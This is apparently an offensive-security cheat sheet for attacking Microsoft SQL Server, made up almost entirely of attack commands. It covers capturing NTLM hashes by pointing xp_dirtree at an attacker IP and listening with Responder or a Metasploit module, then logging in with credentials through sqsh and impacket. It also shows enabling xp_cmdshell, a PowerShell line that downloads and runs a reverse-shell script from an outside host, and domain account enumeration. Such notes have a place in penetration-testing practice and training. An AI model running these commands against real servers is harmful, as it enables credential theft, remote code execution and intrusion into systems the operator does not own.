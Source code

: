 ### NTLM hash steal

```bash
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'

msf> use auxiliary/admin/mssql/mssql_ntlm_stealer

sudo responder -I tun0 
```

### have creds

```bash
## sqsh login 
# -S, host:port
# -U, username
# -P, password
sqsh -S 192.168.3.2 -U sa
sqsh -S tip -U sa -P [password]
sqsh -S tip:1435 -U sa -P [password]

## impacket mssqlclient login
#Recommended -windows-auth when you are going to use a domain. use as domain the netBIOS name of the machine
mssqlclient.py  -db volume -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>

#Once logged in you can run queries:
SQL> select @@version;

#Steal NTLM hash
sudo responder -I <interface> #Run that in other console
SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat

#Try to enable code execution
SQL> enable_xp_cmdshell

#Execute code, 2 sintax, for complex and non complex cmds
SQL> xp_cmdshell whoami /all
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'

# domain user enum 
SUSER_SNAME(domain user sid)
## output binary thing
SUSER_SID(domain\name)
## convert to hex str
master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator'))

```
